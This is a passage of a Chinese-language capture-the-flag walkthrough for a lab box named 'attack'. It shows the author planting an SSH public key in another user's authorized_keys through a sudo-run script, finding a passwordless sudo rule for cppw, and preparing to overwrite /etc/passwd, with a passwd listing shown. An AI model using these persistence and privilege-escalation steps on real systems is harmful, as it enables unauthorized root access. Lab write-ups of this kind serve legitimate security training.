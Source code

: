 我们修改掉这个attack.sh的内容

```这里不能直接 修改attack.sh，但是attack.sh在我们jack的目录下，我们可以删掉他
```
直接把jackob的公钥写进去

```Python
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3U7ZkA0vcE+QvfZGpaTc40YNiTDnwbIPauorRENFuUBOCj735WnLClq8Zu80YXVqmH0x/5Oafpv3nJDoaIBoNSu2JElctHX/bsVpyyWTyCtb7+4EVWi7i8EsHp7Fj/6ZuwFnHLnhGIqnZZVnego6BDfJsRZf0FUanR1F2nXoYmbINVwAxH6Dh1z8nQR7n1fyEqVXowKYaRNnX8Gf8ILPDO23cepNUIr/zpxB3MYZh40NJQpRhgTnVibTQ8tvzKEkF6UmFG52j7n10st0ZzJAyIINsGc7tv9FuFEdSeO65kdpWaQAazgUHBqEPNrVBgynUWzWyNsOHQj62ubhVyLap jackob@attack" >> /home/kratos/.ssh/authorized\_keys
```


```Python
sudo -u kratos /home/jackob/attack.sh
```
然后就可以用jackob的私钥连接kratos用户

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/16.%20attack.004.png)

## 4. 再提权

检测提权

```Python
kratos@attack:~$ sudo -l
Matching Defaults entries for kratos on attack:
    !env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kratos may run the following commands on attack:
    (root) NOPASSWD: /usr/sbin/cppw
```
cppw命令可以用于覆盖/etc/passwd

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/16.%20attack.005.png)

这里我尼玛玩坏了。。。

不能瞎复制啊

```Python
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
\_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
teste:x:1000:1000:teste,,,:/home/teste:/bin/bash
```